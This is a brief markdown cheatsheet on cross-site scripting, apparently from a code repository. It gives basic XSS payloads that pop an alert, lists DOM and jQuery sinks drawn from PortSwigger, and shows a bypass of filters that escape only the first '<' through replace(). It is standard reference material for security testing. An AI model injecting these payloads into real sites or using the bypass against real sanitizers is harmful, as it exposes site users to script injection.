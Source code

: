 ```yaml
---
title: XSS - Cross Site Scripting
description: XSS cheatsheets, payloads and tricks.
---
```


# XSS

## Attack

### Basic payload

```html
<sCRipT>alert()</scRipt>
<a href="javascript:alert()"></a>
<img src=x onerror="alert()">
```

More payloads on [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

### Vectors

If you can control the `href` tag of an anchor (`<a>` element). You can try to set the `href` value to `javascript:alert()`.

### DOM XSS

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()  
document.writeln()  
document.domain  
element.innerHTML  
element.outerHTML  
element.insertAdjacentHTML  
element.onevent  
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()  
after()  
append()  
animate()  
insertAfter()  
insertBefore()  
before()  
html()  
prepend()  
replaceAll()  
replaceWith()  
wrap()  
wrapInner()  
wrapAll()  
has()  
constructor()  
init()  
index()  
jQuery.parseHTML()  
$.parseHTML()
```

> Source [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/dom-based).

## Bypass

### Replace function

The `replace` function only replace the first occurence.

```js
> "<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;img src=x onerror='alert()'>"


> "<<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;<img src=x onerror='alert()'>"
```


